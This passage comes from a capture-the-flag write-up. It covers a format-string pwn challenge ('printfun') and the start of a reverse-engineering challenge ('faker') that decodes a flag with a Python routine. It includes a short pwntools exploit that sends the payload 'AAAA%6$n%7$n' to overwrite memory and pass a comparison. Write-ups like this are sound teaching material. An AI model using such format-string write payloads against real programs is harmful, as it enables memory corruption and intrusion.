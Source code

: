 `5655a050 3c 14 1 ffffc994 5655a050 5655a008 ffffc900 0 0 f7e06637 f7fa0000 f7fa0000 0`

On seeing the values displayed by GDB, we see two addresses - `0x5655a008` and `0x5655a050`

{% include image.liquid url="/assets/img/posts_images/tuctf/printfun_2.png" %}

This is intereting as both these addresses are also present in the program's output with our input.

So, all we have to do is overwrite the 6th and 7th "addresses" of the output to the same value so that the string comparison passes.

We write the following exploit code, which works locally. I hope it would work remotely as well (but no way to test it now :frowning_face:) -

```python
from pwn import *

p = process("printfun")

payload = "AAAA%6$n%7$n"

p.sendlineafter('? ', payload)

p.interactive()
```

---

# Rev Challenges

## faker - 400 pts

If we open the binary in Ghidra, we see that there are calls to different functions, namely _A_, _B_ and _C_, which depend on the user input. But on trying them, we get fake flags.

{% include image.liquid url="/assets/img/posts_images/tuctf/faker.png" %}

But all of them have a common structure, they have a call to `printFlag` with a string. 

{% include image.liquid url="/assets/img/posts_images/tuctf/faker_1.png" %}

Also in the functions list, we see that there is a function named `thisone`. First we take a look at `printFlag` function.

{% include image.liquid url="/assets/img/posts_images/tuctf/faker_2.png" %}

There can be two ways to solve this challenge.

### Method 1 - Static

Write a script to emulate the functionality of the `printFlag` function.

```python
def printFlag(s):
    s2 = ""
    for i in range(len(s)):
        x = ((((ord(s[i]) ^ 0xf) - 0x1d) * 8) % 0x5f) + 0x20
        s2 += chr(x)
    print(s2)

printFlag("\\PJ\\fC|)L0LTw@Yt@;Twmq0Lw|qw@w2$a@0;w|)@awmLL|Tw|)LwZL2lhhL0k")
```
